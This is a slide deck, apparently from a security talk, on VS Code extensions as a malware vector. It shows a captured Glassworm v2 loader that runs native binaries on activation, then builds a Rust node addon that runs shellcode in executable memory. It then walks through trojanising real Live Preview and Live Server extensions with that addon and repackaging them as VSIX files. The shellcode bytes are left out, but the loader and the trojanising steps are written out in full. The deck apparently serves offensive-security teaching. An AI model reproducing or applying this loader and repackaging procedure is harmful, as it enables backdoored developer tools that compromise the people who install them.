


---
transition: fade-out
layout: center
---

# Making first contact




<br />

<div class=”w-full text-center”>”Material Icon” Theme - containing the Glassworm v2</div>

---
transition: fade-out
layout: two-cols
---

<div class="w-full h-100 scale-65 origin-top">



</div>

::right::

<div class="tiny-code">

```js {maxHeight:'450px'}
const os = require('os');
let isActivated = false;
async function activate(context) {
  if (isActivated) return;
  isActivated = true;
  const activationKey = "activationState";
  const activationState = context.globalState.get(activationKey);
  const currentTime = new Date().getTime();
  const init = () => {
    const p = os.platform();
    if (p == 'win32') {
      const win = require('./os.node');
      win.run(
        p,
        process.execPath,
        __dirname
      )
    }
    if (p == 'darwin') {
      const darwin = require('./darwin.node');
      darwin.run(
        p,
        process.execPath,
        __dirname
      )
    }
  };
  if (!activationState) {
    context.globalState.update(
      activationKey,
      JSON.stringify({
        firstActivated: currentTime,
        lastActivated: currentTime,
        initialized: true,
      })
    );

    init();

  } else {
    const state = JSON.parse(activationState);
    if (currentTime > state.lastActivated + 2 * 24 * 60 * 60 * 1000) {
      init();

      context.globalState.update(
        activationKey,
        JSON.stringify({
          ...state,
          lastActivated: currentTime,
        })
      );
    }
  }
}
```

</div>

<div class="absolute bottom-4 left-4 text-xs opacity-60"><a href="https://www.virustotal.com/gui/file/9212a99a7730b9ee306e804af358955c3104e5afce23f7d5a207374482ab2f8f/details">VirusTotal</a></div>

<style>
.mermaid svg .label, .mermaid svg .node, .mermaid svg .edgePath { animation: none !important; transition: none !important; }
.tiny-code pre,
.tiny-code code,
.tiny-code .shiki,
.tiny-code .slidev-code {
  font-size: 8px !important;
  line-height: 1.2 !important;
}
.tiny-code pre code span {
  font-size: 8px !important;
}
</style>

---
transition: none
layout: two-cols
---

<div class="w-full h-100 scale-65 origin-top">


</div>

::right::

<div class="tiny-code h-full flex flex-col justify-center">

```js {1-9|10-} {maxHeight:'450px'}
  const p = os.platform();
  if (p == 'win32') {
    const win = require('./os.node');
    win.run(
      p,
      process.execPath,
      __dirname
    )
  }
  if (p == 'darwin') {
    const darwin = require('./darwin.node');
    darwin.run(
      p,
      process.execPath,
      __dirname
    )
  }
};

```

</div>

<div class="absolute bottom-4 left-4 text-xs opacity-60"><a href="https://www.virustotal.com/gui/file/9212a99a7730b9ee306e804af358955c3104e5afce23f7d5a207374482ab2f8f/details">VirusTotal</a></div>

<style>
.mermaid svg .label, .mermaid svg .node, .mermaid svg .edgePath { animation: none !important; transition: none !important; }
.tiny-code pre,
.tiny-code code,
.tiny-code .shiki,
.tiny-code .slidev-code {
  font-size: 14px !important;
  line-height: 1.4 !important;
}
.tiny-code pre code span {
  font-size: 14px !important;
}
</style>


---
transition: fade-out
layout: center
---

<h1 class="text-center">Loading the binary in IDA</h1>




---
transition: fade-out
layout: center
---

# Recap

---
transition: fade-out
layout: center
---


---
transition: fade-out
layout: center
---

<div class="flex items-center justify-center gap-8">
  
  <span class="text-6xl font-bold">+</span>
  
</div>

---
transition: fade-out
layout: center
---

<div class="flex items-center justify-center gap-8">
  
  <span class="text-6xl font-bold">+</span>
  
</div>


---
transition: fade-out
layout: center
---

<div class="flex items-center justify-center gap-8">
  
  <span class="text-6xl font-bold">+</span>
  <div class="relative w-48 h-48 flex items-center justify-center">
    
    <v-click>
      <span class="absolute -top-10 left-1/2 -translate-x-1/2 text-5xl text-red-500">↓</span>
    </v-click>
    <v-click>
      <span class="absolute -bottom-10 left-1/2 -translate-x-1/2 text-5xl text-red-500">↑</span>
    </v-click>
    <v-click>
      <span class="absolute top-1/2 -left-10 -translate-y-1/2 text-5xl text-red-500">→</span>
    </v-click>
    <v-click>
      <span class="absolute top-1/2 -right-10 -translate-y-1/2 text-5xl text-red-500">←</span>
    </v-click>
    <v-click>
      <span class="absolute -top-8 -left-8 text-5xl text-red-500">↘</span>
    </v-click>
    <v-click>
      <span class="absolute -top-8 -right-8 text-5xl text-red-500">↙</span>
    </v-click>
    <v-click>
      <span class="absolute -bottom-8 -left-8 text-5xl text-red-500">↗</span>
    </v-click>
    <v-click>
      <span class="absolute -bottom-8 -right-8 text-5xl text-red-500">↖</span>
    </v-click>
  </div>
</div>

---
layout: center
transition: fade-out
---


---
transition: fade-out
layout: two-cols
---

<div class="h-full flex flex-col justify-center pr-12">

# Going Native

- Native code allows for direct interactions with the OS APIs
- Most techniques are easier to implement in low level languages which compile to native code
- Native code in extensions are usually more difficult to detect and reverse engineer 

</div>

::right::

<div class="h-full flex flex-col justify-center pl-12">

# The Problem

- Electron v20 does not support ffi
- Implementation like `ffi-rs` ultimately compile into node-addons themselves

<br />

# The Solution

- Cut out the middleman and write our own modules

</div>

---
transition: fade-out
layout: center
---

<div class="flex items-center gap-8">
  
  <div class="-mt-60" v-motion :initial="{ x: -200, opacity: 0 }" :enter="{ x: 0, opacity: 1, transition: { delay: 300, duration: 700 } }">
    https://nodejs.org/api/addons.html
  </div>
</div>

---
transition: fade-out
layout: center
---

# Node Addons

<div class="italic">
<span class="transition-all duration-500" :class="{ 'opacity-30': $clicks >= 1 }">Addons are </span>dynamically-linked shared objects<span class="transition-all duration-500" :class="{ 'opacity-30': $clicks >= 1 }"> written in C++. The require() function can load addons as ordinary Node.js modules. Addons provide an interface between JavaScript and C/C++ libraries.</span>
<span v-click></span>
</div>

_- Official NodeJS documentation_

---
transition: fade-out
layout: center
class: text-center
---

# How addons are loaded

(Target OS: Windows)

```js
node -e "process.stdout.write(process.binding('natives')['internal/modules/cjs/loader'])"
```

---
layout: default
title: How addons are loaded (On Windows)
---

# How addons are loaded (On Windows)

<div class="text-base">

<v-switch>

<template #1>

**1. JS — `Module.prototype.require`** &nbsp;<span class="opacity-60">lib/internal/modules/cjs/loader.js</span>

```js {*}{maxHeight:'380px'}
Module.prototype.require = function(id) {
  validateString(id, 'id');
  requireDepth++;
  try { return wrapModuleLoad(id, this, /* isMain */ false); }
  finally { requireDepth--; }
};
```

</template>

<template #2>

**2. `Module.prototype.load`** — dispatch by extension

```js {6}{maxHeight:'380px'}
Module.prototype.load = function(filename) {
  this.filename ??= filename;
  this.paths ??= Module._nodeModulePaths(path.dirname(filename));
  const extension = findLongestRegisteredExtension(filename);
  Module._extensions[extension](this, filename);   // → .node handler
  this.loaded = true;
};
```

</template>

<template #3>

**3. `Module._extensions['.node']`** — bounce to `process.dlopen`

```js {*}{maxHeight:'380px'}
Module._extensions['.node'] = function(module, filename) {
  return process.dlopen(module, path.toNamespacedPath(filename));
};
```

</template>

<template #4>

**4. C++ — `node::binding::DLOpen`** &nbsp;<span class="opacity-60">src/node_binding.cc</span>

```cpp {6}{maxHeight:'380px'}
void DLOpen(const FunctionCallbackInfo<Value>& args) {
  Environment* env = Environment::GetCurrent(args);
  int32_t flags = DLib::kDefaultFlags;
  // ... arg parsing ...
  node::Utf8Value filename(env->isolate(), args[1]);
  env->TryLoadAddon(*filename, flags, [&](DLib* dlib) {
    const bool is_opened = dlib->Open();
    // ... resolve init callback, call it on exports ...
  });
}
```

</template>

<template #5>

**5. `Environment::TryLoadAddon`** &nbsp;<span class="opacity-60">src/env.cc</span>

```cpp {3}{maxHeight:'380px'}
void Environment::TryLoadAddon(const char* filename, int flags,
    const std::function<bool(binding::DLib*)>& was_loaded) {
  loaded_addons_.emplace_back(filename, flags);
  if (!was_loaded(&loaded_addons_.back())) loaded_addons_.pop_back();
}
```

</template>

<template #6>

**6. `DLib::Open` (Windows)** &nbsp;<span class="opacity-60">src/node_binding.cc</span>

```cpp {2}{maxHeight:'380px'}
bool DLib::Open() {
  int ret = uv_dlopen(filename_.c_str(), &lib_);
  if (ret == 0) { handle_ = static_cast<void*>(lib_.handle); return true; }
  errmsg_ = uv_dlerror(&lib_);
  uv_dlclose(&lib_);
  return false;
}
```

</template>

<template #7>

**7. libuv — `uv_dlopen`** &nbsp;<span class="opacity-60">deps/uv/src/win/dl.c</span>

```c {7-9}{maxHeight:'380px'}
int uv_dlopen(const char* filename, uv_lib_t* lib) {
  WCHAR filename_w[32768];
  ssize_t r = uv_wtf8_length_as_utf16(filename);
  if (r < 0) return uv__dlerror(lib, filename, ERROR_NO_UNICODE_TRANSLATION);
  uv_wtf8_to_utf16(filename, filename_w, r);

  lib->handle = LoadLibraryExW(filename_w,
                               NULL,
                               LOAD_WITH_ALTERED_SEARCH_PATH);
  if (lib->handle == NULL)
    return uv__dlerror(lib, filename, GetLastError());
  return 0;
}
```

</template>

<template #8>

<div class="mt-4 px-3 py-2 rounded bg-emerald-500/10 border border-emerald-500/30">
  <span class="font-mono text-sm">kernel32!LoadLibraryExW → ntdll!LdrLoadDll → addon's DllMain</span>
</div>

</template>

</v-switch>

</div>


---
transition: fade-out
layout: default
class: text-center
---

<style>
.slidev-layout {
  background-color: black;
  color: white;
  display: flex;
  align-items: center;
  justify-content: center;
  gap: 3rem;
}
.crabman-img {
  max-height: 10vh;
  max-width: 5vw;
}
</style>

# Enter Crabman


---
transition: fade-out
layout: default
class: text-left
---

# Why the crab lang?

_A completely unbiased take_

- The official Node Addon documentation talks about writing add-ons in C++ (ew)

- C++ add ons usually require a bunch of setup, like working with `node-gyp`

- Rust, via the `neon-rs` package makes build setup easier

- Rust is just better<span style="color: red">*</span>



<div class="absolute bottom-4 left-4 text-xs opacity-60"><span style="color: red">*</span>Source: Trust me</div>

---
transition: fade-out
layout: default
class: text-left
---

# Writing a Hello World addon

```bash {1-2|3-12|13-}
# Init a project
$ npm init neon hello-world

# Inspecting the file structure
$ tree hello-world 
hello-world
├── Cargo.toml
├── package.json
├── README.md
└── src
    └── lib.rs

# Inspecting the contents 
$ cat hello-world/src/lib.rs 
#[neon::export]
fn hello(name: String) -> String {
    format!("hello {name}")
}

// #[neon::main]
// fn main(_cx: ModuleContext) -> NeonResult<()> {
//     println!("module is loaded!");
//     Ok(())
// }    
```

---
transition: fade-out
layout: default
class: text-left
---

# Inspecting the contents of `package.json`

```json {5|8-9|13-14}
{
  "name": "hello-world",
  "version": "0.1.0",
  "description": "",
  "main": "index.node",
  "scripts": {
    "test": "cargo test",
    "cargo-build": "cargo build --message-format=json-render-diagnostics > cargo.log",
    "cross-build": "cross build --message-format=json-render-diagnostics > cross.log",
    "postcargo-build": "neon dist < cargo.log",
    "postcross-build": "neon dist -m /target < cross.log",
    "debug": "npm run cargo-build --",
    "build": "npm run cargo-build -- --release",
    "cross": "npm run cross-build -- --release"
  },
  "author": "",
  "license": "ISC",
  "type": "commonjs",
  "devDependencies": {
    "@neon-rs/cli": "0.1.82"
  }
}
```

---
transition: fade-out
layout: default
class: text-left
---

# Using our addon

```bash {1-2|3-5|6-}
# Make sure we have the dependencies
$ npm install

# Compile stuff
$ npm run build 

# Run that
$ node
Welcome to Node.js v25.9.0.
Type ".help" for more information.
> hw = require("./index.node")
{ hello: [Function: hello] }
> hw.hello("world")
'hello world'
``` 

_Time to put it into an extension_

---
transition: fade-out
layout: default
class: text-left
---

# Creating a demo extension

```bash {1-3|5-7|8-}
# Install dependencies
$ npm install --global yo generator-code
$ npm install -g @vscode/vsce

# Create a demo extension
$ yo code --skip-cache --ask-answered --open --extensionType js --pkgManager npm --extensionDisplayName DemoExtension --quick demo_extension

# Examining the folder structure
$ tree  -L 1 demoextension 
demoextension
├── CHANGELOG.md
├── eslint.config.mjs
├── extension.js
├── jsconfig.json
├── node_modules
├── package-lock.json
├── package.json
├── README.md
├── test
└── vsc-extension-quickstart.md
```

---
transition: fade-out
layout: two-cols
---

<div class="h-full flex items-center">

## package.json

</div>

::right::

<style scoped>
.slidev-code, .slidev-code *, .shiki-magic-move-container, .shiki-magic-move-container * { font-size: 0.5rem !important; line-height: 0.72rem !important; }
</style>

<div style="height: 450px; overflow: auto">

````md magic-move {maxHeight:'450px'}

```json 
{
  "name": "demoextension",
  "displayName": "DemoExtension",
  "description": "",
  "version": "0.0.1",
  "engines": {
    "vscode": "^1.120.0"
  },
  "categories": [
    "Other"
  ],
  "activationEvents": [],
  "main": "./extension.js",
  "contributes": {
    "commands": [{
      "command": "demoextension.helloWorld",
      "title": "Hello World"
    }]
  },
  "scripts": {
    "lint": "eslint .",
    "pretest": "npm run lint",
    "test": "vscode-test"
  },
  "devDependencies": {
    "@types/vscode": "^1.120.0",
    "@types/mocha": "^10.0.10",
    "@types/node": "22.x",
    "eslint": "^9.39.3",
    "@vscode/test-cli": "^0.0.12",
    "@vscode/test-electron": "^2.5.2"
  }
}
```

```json {2|5|6-8|12|13|14-19}
{
  "name": "demoextension",
  "displayName": "DemoExtension",
  "description": "",
  "version": "0.0.1",
  "engines": {
    "vscode": "^1.120.0"
  },
  "categories": [
    "Other"
  ],
  "activationEvents": [],
  "main": "./extension.js",
  "contributes": {
    "commands": [{
      "command": "demoextension.helloWorld",
      "title": "Hello World"
    }]
  },
}
```

````

</div>

<!-- Talk about activation events. Extensions can be triggered by activation events or commands -->
---
transition: fade-out
layout: two-cols
---

<div class="h-full flex items-center">

## extension.js

</div>

::right::

<style scoped>
.slidev-code, .slidev-code * { font-size: 0.55rem !important; line-height: 0.85rem !important; }
</style>

<div class="h-full flex flex-col justify-center">

```js {1|5-13|7-10|15|16-}
const vscode = require('vscode');
/**
 * @param {vscode.ExtensionContext} context
 */
function activate(context) {
	console.log('Congratulations, your extension "demoextension" is now active!');

	const disposable = vscode.commands.registerCommand('demoextension.helloWorld', function () {
		vscode.window.showInformationMessage('Hello World from DemoExtension!');
	});

	context.subscriptions.push(disposable);
}

function deactivate() {}

module.exports = {
	activate,
	deactivate
}
```

</div>

---
transition: fade-out
layout: center
---

# Updating our addon real quick

```rust
// Remember to add winapi to Cargo.toml
use winapi::um::memoryapi::VirtualAlloc;
use winapi::um::processthreadsapi::CreateThread;
use winapi::um::synchapi::WaitForSingleObject;
use winapi::um::winnt::{MEM_COMMIT, MEM_RESERVE, PAGE_EXECUTE_READWRITE};
use std::ptr::null_mut;

#[neon::export]
fn hello()  {
    let x64shellcode: [u8; 433] = [
      // Evil shellcode
    ];

    unsafe {
        let func_addr = VirtualAlloc(null_mut(), x64shellcode.len(), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE);
        std::ptr::copy_nonoverlapping(x64shellcode.as_ptr(), func_addr as *mut u8, x64shellcode.len());

        let mut thread_id: u32 = 0; 
        let h_thread = CreateThread(null_mut(), 0, Some(std::mem::transmute(func_addr)), null_mut(), 0, &mut thread_id as *mut u32);

        WaitForSingleObject(h_thread, 0xFFFFFFFF);
    }
}
```

---
transition: fade-out
layout: center
---

# Updating `extension.js`

```js
function activate(context) {
  require("./index.node").hello();
  ...
}
```

<br />

# Build the extension

```bash
$ vsce package --allow-missing-repository --skip-license
$ code --install-extension demoextension-0.0.1.vsix
```

---
transition: fade-out
layout: center
class: text-center
---




---
transition: fade-out
layout: center
class: text-center
---

## However, no developer will install this (right?)


---
transition: fade-out
layout: center
class: text-center
---

# Time to make it believable

---
transition: fade-out
layout: center
class: text-center
---

# Method #1 

_Yoink the extension from source_

---
transition: fade-out
layout: center
---

<div class="text-xs">

Clone the repo locally and copy your node addon

```bash
$ git clone https://github.com/microsoft/vscode-livepreview
$ cd vscode-livepreview
$ mkdir native
$ cp /path/to/addon native/index.node
```

Now, since the project uses `webpack`, we need to make it happy. That should be easy - we just need to wrap our addon with `__non_webpack_require__` instead of `require()` to tell webpack to ignore it. Since the `CopyPlugin` is already installed, we just update it with the following config:

````md magic-move {lines: true}
```js
new CopyPlugin({
			patterns: [
				{
					from: './node_modules/@vscode/codicons/dist/codicon.css',
					to: '../media/codicon.css',
				},
				{
					from: './node_modules/@vscode/codicons/dist/codicon.ttf',
					to: '../media/codicon.ttf',
				},
			],
		}),
```

```js {11-14}
new CopyPlugin({
  patterns: [
    {
      from: './node_modules/@vscode/codicons/dist/codicon.css',
      to: '../media/codicon.css',
    },
    {
      from: './node_modules/@vscode/codicons/dist/codicon.ttf',
      to: '../media/codicon.ttf',
    },
    {
      from: path.resolve(__dirname, 'native/index.node'),
      to: 'index.node',
    },
  ],
}),
```
````

</div>

---
transition: fade-out
layout: center
---

# Putting it together

````md magic-move {lines: true}
```js
import * as vscode from 'vscode';
import { TelemetryReporter } from '@vscode/extension-telemetry';
import { EXTENSION_ID } from './utils/constants';
import { PathUtil } from './utils/pathUtil';
import {
	PreviewType,
	Settings,
	SETTINGS_SECTION_ID,
	SettingUtil,
} from './utils/settingsUtil';
import { IOpenFileOptions, Manager } from './manager';

let reporter: TelemetryReporter;
let serverPreview: Manager;

export function activate(context: vscode.ExtensionContext): void {
  const extPackageJSON = context.extension.packageJSON;
	reporter = new TelemetryReporter(extPackageJSON.aiKey);

```
```js {2,13,17,18}
import * as vscode from 'vscode';
import * as path from 'path';
import { TelemetryReporter } from '@vscode/extension-telemetry';
import { EXTENSION_ID } from './utils/constants';
import { PathUtil } from './utils/pathUtil';
import {
	PreviewType,
	Settings,
	SETTINGS_SECTION_ID,
	SettingUtil,
} from './utils/settingsUtil';
import { IOpenFileOptions, Manager } from './manager';
declare const __non_webpack_require__: NodeRequire;
let reporter: TelemetryReporter;
let serverPreview: Manager;
export function activate(context: vscode.ExtensionContext): void {
	const native = __non_webpack_require__(path.join(__dirname, 'index.node'));
	native.hello('world');
	const extPackageJSON = context.extension.packageJSON;
	reporter = new TelemetryReporter(extPackageJSON.aiKey);
```
````

<div class="text-xs">

One thing to note here is that you cannot block the calling thread - so it is recommended to start your malicious stuff in a new thread (or, on Windows, don't wait for thread to become alertable).

</div>

---
transition: fade-out
---

Packaging it all together:

```bash
$ vsce package --no-yarn
$ code --install-extension live-server-0.4.18.vsix
```

And this should install the extension:


---
transition: fade-out
---

Triggering the payload



<br />



---
transition: fade-out
---

# Shortcomings

- Source code needs to be available
- No one has ever installed an extension from a VSIX file
- The page shows that's the extension has been installed from a VSIX

<div class="relative inline-block">
  
  <div class="absolute border-3 border-red-500" style="top: 64%; left: 76%; width: 15%; height: 13%;" />
</div>

---
transition: fade-out
class: text-center
---

<div class="flex items-center justify-center gap-8 h-full">
  <h1>So, no source code?</h1>
  
</div>

---
transition: fade-out
layout: center
---

# New Target


_Even though it is technically open source - we will treat this as closed source (we dont want to violate any Licenses on stage)_

---
transition: fade-out
---

# Getting the source

```bash {1-2|3-4|5-6|7-8|9-}
# Fetch the API from the marketplace
$ curl https://marketplace.visualstudio.com/_apis/public/gallery/publishers/ritwickdey/vsextensions/LiveServer/5.7.9/vspackage\?target\=win32-x64 --output target.vsix  
# Extract the vsix
$ 7z e target.vsix 
# unzip the extension
$ unzip target
# Cleanup
$ rm target*
# Checking the file structure
$ tree -L 2
.
├── [Content_Types].xml
├── extension
│   ├── CHANGELOG.md
│   ├── images
│   ├── LICENSE.txt
│   ├── node_modules
│   ├── out
│   ├── package.json
│   └── README.md
```

---
transition: fade-out
---

- Copy the target addon into `extension/out/src/`
- Now we can directly update the `extension/out/src/extension.js` file:

```js
function activate(context) {
  require("./index.node").hello();
  ...
